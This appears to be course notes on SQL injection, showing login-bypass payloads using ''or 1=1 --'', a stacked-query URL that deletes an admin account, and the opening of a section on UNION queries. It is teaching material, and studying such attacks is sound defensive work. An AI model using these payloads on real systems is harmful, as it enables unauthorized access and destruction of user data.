 SQL query becomes:

```
“SELECT * FROM users WHERE email=‘sajeeb.lohani@unimelb.edu.au’ AND password = ’password’;”

Bypass:
“SELECT * FROM users WHERE email=‘sajeeb.lohani@unimelb.edu.au’ or 1=1 -- ’ 
AND password = ’password’;”

If the application checks if only one user is retrieved:
“SELECT * FROM users WHERE email=‘sajeeb.lohani@unimelb.edu.au’ or 1=1 LIMIT 1 -- ’ 
AND password = ’password’;”
```

Ignores the error and retrieves the whole User table.



#### Stacked Queries

* Just like in DOTA, stacking items or like pancakes, stacking pancakes!
* Using a second query after completing the first
* Still requires to be syntactically correct
* Uses the ‘;’ (semicolon) character
* Query stacking doesn’t work in all languages as mitigations are built-in. The interface communicating
  with the DB mitigates this issue.

URL entered:

```
https://test.com/find_user?email=sajeeb.lohani@unimelb.edu.au’ or 1=1 LIMIT 1; 
DELETE FROM users where email = ‘admin@admin.com’ -- &password=password
```

SQL query becomes:

```
“SELECT * FROM users WHERE email=‘sajeeb.lohani@unimelb.edu.au’ or 1=1 LIMIT 1; 
DELETE FROM users where email = ‘admin@admin.com’ -- ’ AND password = ’password’;”
```

Ignores the error and retrieves the whole User table. Deletes the admin@admin.com account from the database.



#### Union Queries

* Extracting additional information
* Works like union of sets (A U B = A + B)
* Requires the same number of columns (otherwise will cause a syntax error)
